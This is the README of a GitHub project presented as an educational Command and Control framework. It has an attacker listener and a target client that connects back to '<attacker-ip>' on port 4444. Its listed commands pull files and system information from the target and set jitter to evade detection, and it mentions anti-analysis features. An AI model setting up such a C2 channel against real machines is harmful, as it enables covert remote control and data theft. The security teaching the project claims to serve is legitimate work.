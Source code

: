 # EchoBack

A purely educational implementation of a Command and Control (C2) framework to demonstrate cybersecurity concepts in controlled environments.

## ⚠️ IMPORTANT NOTICE

**This project is strictly for EDUCATIONAL PURPOSES ONLY and should ONLY be used in controlled environments such as:**
- Cybersecurity courses and labs
- Educational workshops and training
- Security research in isolated environments

**DO NOT use this code on systems or networks without explicit permission. Unauthorized use may violate computer crime laws.**

## Overview

This project provides a simplified implementation of C2 (Command and Control) infrastructure to help cybersecurity students and educators understand:

- Network communication patterns used by malware
- Data encoding and obfuscation techniques
- Anti-analysis methods and their detection
- Defensive measures against C2 traffic

## Features

### Attacker Component (`attacker.py`)
- Interactive command shell for educational demonstrations
- Message encoding with session tracking
- Command history and logging capabilities
- File download functionality
- Configurable communication parameters (jitter, heartbeats)

### Target Component (`target.py`)
- Educational demonstration of C2 client behaviors
- System information gathering techniques
- Network resilience with exponential backoff
- Command execution and response encoding
- Analysis environment detection demonstration

## Installation

1. Clone the repository:
```bash
git clone https://github.com/arnavgupta-py/EchoBack
cd EchoBack
```

2. Install dependencies:
```bash
pip install -r requirements.txt
```

## Usage

### For Educational Demonstrations

#### Running the Attacker:
```bash
python attacker.py --ip 0.0.0.0 --port 4444
```

#### Running the Target (on a separate system):
```bash
python target.py --server <attacker-ip> --port 4444 
```

### Available Commands

Once connected, you can use the following commands:
- `help` - Display available commands
- `info` - Show target system information
- `download <path>` - Download files from target
- `sleep <seconds>` - Adjust sleep time between commands
- `jitter <percentage>` - Set timing jitter to avoid detection
- `encoding <on|off>` - Toggle command encoding
- `session` - Display current session information
- `exit` - Close the connection and exit

## Building Executables

For educational demonstrations, you may want to build standalone executables. See the [Building Instructions](building_instructions.md) for details.

## Educational Resources

For those using this project in educational settings, consider exploring:
- [MITRE ATT&CK Framework](https://attack.mitre.org/) - Particularly the Command and Control tactics
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [SANS Courses on Malware Analysis](https://www.sans.org/)

## Contributing

Contributions to improve the educational value of this project are welcome. Please ensure all contributions maintain the strictly educational nature of this repository.

1. Fork the repository
2. Create your feature branch: `git checkout -b feature/new-educational-feature`
3. Commit your changes: `git commit -am 'Add educational feature'`
4. Push to the branch: `git push origin feature/new-educational-feature`
5. Submit a pull request

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Disclaimer

This code is provided for educational purposes only. The authors are not responsible for any misuse or damage caused by this code. Users are responsible for complying with all applicable laws and regulations when using this code.
